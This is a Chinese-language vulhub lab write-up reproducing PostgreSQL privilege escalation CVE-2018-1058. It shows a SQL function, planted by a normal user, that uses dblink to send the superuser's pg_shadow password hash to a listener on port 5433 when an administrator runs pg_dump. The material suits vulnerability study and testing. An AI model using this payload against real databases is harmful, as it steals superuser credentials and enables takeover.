





# PostgreSQL 提权漏洞（CVE-2018-1058）


### 1.1、漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

### 1.2、漏洞等级

### 1.3、影响版本

9.3到10版本

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/postgres/CVE-2018-1058

---

启动测试环境：

```bash
sudo docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。




#### 2、漏洞验证

1、普通用户植入后门命令

通过普通用户vulhub:vulhub的身份登录postgres：

```
psql --host 10.9.75.3 --username vulhub
```



```mssql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.9.75.3 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```



监听5433端口，等待超级用户触发我们留下的这个“后门”



2、管理员操作数据库触发

用超级用户的身份执行pg_dump命令，导出vulhub这个数据库的内容

```bash
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```




